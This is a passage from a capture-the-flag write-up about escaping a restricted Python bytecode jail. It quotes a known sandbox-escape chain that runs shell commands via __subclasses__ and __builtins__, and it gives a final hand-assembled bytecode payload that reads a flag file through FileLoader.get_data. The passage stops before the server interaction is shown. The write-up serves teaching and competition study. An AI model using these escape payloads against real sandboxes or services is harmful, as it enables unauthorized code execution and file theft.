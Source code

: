 We had **2 consts, 1 name, and 4 opcodes** left to get what we wanted, but we had access to [an extensive list of classes](https://github.com/Legoclones/website/blob/main/source/static/lactf-pycjail/classes.txt) that opened up functionality a lot.

The "stereotypical" payload [from HackTricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/python/bypass-python-sandboxes#no-builtins) is to use `''.__class__.__bases__.__subclasses__()[144]()._module.__builtins__['__import__']('os').system('ls')` to run system commands (note that this was slightly modified from the Python2 version, and the exact index of `<class 'warnings.catch_warnings'>` may vary depending on your installation & version). The problem with this payload was it required another 3 names (`_module`, `__builtins__`, `system`) and 3 consts (`'__import__'`, `'os'`, `'ls'`), which we didn’t have. We considered making our first const of length 144 the same as our last const (padding our bash payload with extra `;`s until we reached our desired length), but we still had 2 extra names.

Our second thought was `"".__class__.__base__.__subclasses__()[144]()._module.__builtins__["eval"]("insert code here")`, but that required 2 names and 2 consts (still 1 too many names).

After perusing the list of available classes one by one, I started looking into the class at index 118, which was `<class '_frozen_importlib_external.FileLoader'>`. Looking at this class’s attributes, I saw the function `get_data()`, which required two arguments for the path of a file. Excited, I wrote up and tested the code `("a"*118).__class__.__base__.__subclasses__()[118].get_data('flag.txt','flag.txt')`, and my local flag was printed! This only required 1 extra name and const (we even had one const leftover), and used exactly 4 more opcodes.

### Final Payload

The final payload was:

```
''.__class__.__base__.__subclasses__()[118].get_data('flag.txt','flag.txt')

consts: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa,flag.txt
names: __class__,__base__,__subclasses__,get_data
code: 64006d006d016d02830064001e000200010019006d036401640183025300

6400 -> LOAD_CONST, consts[0] -> 'a'
6d00 -> IMPORT_FROM, names[0] -> __class__
6d01 -> IMPORT_FROM, names[1] -> __base__
6d02 -> IMPORT_FROM, names[2] -> __subclasses__
8300 -> CALL_FUNCTION
6400 -> LOAD_CONST, consts[0] -> 'a'
1e00 -> GET_LEN -> 1
0200 -> ROT_TWO
0100 -> POP_TOP
1900 -> BINARY_SUBSCR
6d03 -> IMPORT_FROM, names[3] -> get_data
6401 -> LOAD_CONST, consts[1] -> 'flag.txt'
6401 -> LOAD_CONST, consts[1] -> 'flag.txt'
8302 -> CALL_FUNCTION
5300 -> RETURN_VALUE
```

And server interaction:

